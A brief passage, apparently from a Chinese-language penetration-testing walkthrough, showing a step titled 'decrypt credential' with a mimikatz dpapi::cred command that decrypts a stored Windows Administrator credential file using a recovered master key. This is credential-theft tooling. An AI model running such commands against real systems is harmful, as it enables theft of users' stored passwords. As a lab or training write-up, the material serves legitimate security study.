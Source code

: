 ![image-20230809213022072](assets/image-20230809213022072.png)

### 2.5.5. 解密票据

这里仔细看命令，是需要相互结合起来的。

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\6090C0FC3FE42D73866869883B167718 /masterkey:8a5b068bf179d5617421dc04bd2b310d319badf9d79421e7c0a9bf685317f23b1f7be9666983ca3af76939256c2267ba0d4ab600962e4940fcf09be61d101c1d
```
